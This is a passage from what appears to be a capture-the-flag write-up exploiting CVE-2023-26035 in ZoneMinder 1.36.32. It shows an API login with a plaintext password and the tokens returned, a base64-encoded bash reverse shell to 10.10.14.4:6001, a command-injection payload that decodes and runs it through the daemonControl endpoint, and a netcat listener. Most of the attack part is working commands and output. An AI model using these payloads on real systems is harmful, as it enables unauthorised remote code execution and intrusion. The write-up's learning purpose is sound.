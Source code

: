 In the upper right we see it is running ZoneMinder version `v1.36.32`. And searching online we find vulnerability [https://nvd.nist.gov/vuln/detail/CVE-2023-26035](https://nvd.nist.gov/vuln/detail/CVE-2023-26035). And we also find an exploit in [Metasploit](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/zoneminder_snapshots.rb). And the vulnerable code we found here at [GitHub - ZoneMinder](https://github.com/ZoneMinder/zoneminder/commit/3bd58d8393fba06f17e013c33b3d44442e3e5be2).

To start with we need to get a `access_token` as described in the [ZoneMinder - API](https://zoneminder.readthedocs.io/en/stable/api.html#getting-an-api-key).

```shell
labadmin@labmachine:~/surveillance$ curl -s -X POST -d "user=admin&pass=starcraft122490" http://127.0.0.1:8080/api/host/login.json | python3 -m json.tool
{
    "access_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJab25lTWluZGVyIiwiaWF0IjoxNzE0NTQ5OTU3LCJleHAiOjE3MTQ1NTcxNTcsInVzZXIiOiJhZG1pbiIsInR5cGUiOiJhY2Nlc3MifQ.dP9P6Zm9Z4fI2dWZYwPFswLKMVZ3LemjBUEqXfw6shg",
    "access_token_expires": 7200,
    "refresh_token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJab25lTWluZGVyIiwiaWF0IjoxNzE0NTQ5OTU3LCJleHAiOjE3MTQ2MzYzNTcsInVzZXIiOiJhZG1pbiIsInR5cGUiOiJyZWZyZXNoIn0.LcbIVbav4MMCx0JpEIlmlLOrDYy633Ewi70VJJwfdNM",
    "refresh_token_expires": 86400,
    "credentials": "auth=",
    "append_password": 0,
    "version": "1.36.32",
    "apiversion": "2.0"
}
```

From the vulnerable source code we know a daemon named 
zmdc.dl. So as the next step we inject the command parameter and execute code on the target.

First we base64 encode the reverse shell command.

```shell
labadmin@labmachine:~/surveillance$ echo 'bash -i >& /dev/tcp/10.10.14.4/6001 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzYwMDEgMD4mMQo=
```

And then we must URL-encode the entire payload.

```shell
$(echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzYwMDEgMD4mMQo="|base64 -d|bash)
```

Next we start the local Netcat listener.

```shell
labadmin@labmachine:~/surveillance$ nc -lvnp 6001
Listening on 0.0.0.0 6001
```

The URL-encoded payload must be set to the `/$command` section of the URL, which we recall is as follows.

```shell
// invocation: 
https://server/zm/api/host/daemonControl/<daemon>.pl/<command>.json
```
